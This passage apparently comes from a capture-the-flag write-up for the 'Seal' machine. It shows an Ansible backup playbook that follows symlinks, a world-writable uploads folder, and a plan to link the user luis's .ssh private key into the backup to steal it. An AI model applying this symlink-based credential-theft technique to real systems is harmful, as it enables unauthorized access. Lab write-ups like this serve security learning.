 `/opt/backups/playbook/run.yml`

```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

What it does is copy all files from `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` to `/opt/backups/files` including symbolically linked ones. Then it compresses them to a `tar.gz` file and saves it under `/opt/backups/archives`.
Looking in this directory it seems the configuration file is actively being run by the user Luis since the created files are owned by him.

```php
tomcat@seal:/var/lib/tomcat9$ ls -la /opt/backups/archives/*
-rw-rw-r-- 1 luis luis 606055 Jul 10 22:45 /opt/backups/archives/backup-2021-07-10-22:45:33.gz
```

To exploit this we need a place to write under `/var/lib/tomcat9/webapps/ROOT/admin/dashboard`. Luckily for us we have write access on the uploads folder.

```php
tomcat@seal:/var/lib/tomcat9$ ls -la /var/lib/tomcat9/webapps/ROOT/admin/dashboard
total 100
drwxr-xr-x 7 root root  4096 May  7 09:26 .
drwxr-xr-x 3 root root  4096 May  6 10:48 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 Jul 10 22:00 uploads
```

Now we just need to choose what we want to link. For this we can take any file Luis has read access to. Looking in his home directory we can see an existing `.ssh` folder which might contain an `id_rsa` file.

```php
tomcat@seal:/var/lib/tomcat9$ ls -la /home/luis/
total 51332
drwxr-xr-x 9 luis luis     4096 Jul 10 20:52 .
drwxr-xr-x 3 root root     4096 May  5 12:52 ..
drwxrwxr-x 3 luis luis     4096 May  7 06:00 .ansible
lrwxrwxrwx 1 luis luis        9 May  5 12:57 .bash_history -> /dev/null
-rw-r--r-- 1 luis luis      220 May  5 12:52 .bash_logout
-rw-r--r-- 1 luis luis     3797 May  5 12:52 .bashrc
drwxr-xr-x 3 luis luis     4096 May  7 07:00 .cache
drwxrwxr-x 3 luis luis     4096 May  5 13:45 .config
drwxrwxr-x 6 luis luis     4096 Jul 10 20:23 .gitbucket
-rw-r--r-- 1 luis luis 52497951 Jan 14 02:51 gitbucket.war
drwxrwxr-x 3 luis luis     4096 May  5 13:41 .java
drwxrwxr-x 3 luis luis     4096 May  5 14:33 .local
-rw-r--r-- 1 luis luis      807 May  5 12:52 .profile
-rw-rw-r-- 1 luis luis      154 Jul 10 20:52 run.yml
drwx------ 2 luis luis     4096 May  7 06:10 .ssh
-rw-rw-r-- 1 luis luis      152 Jul 10 20:50 test
```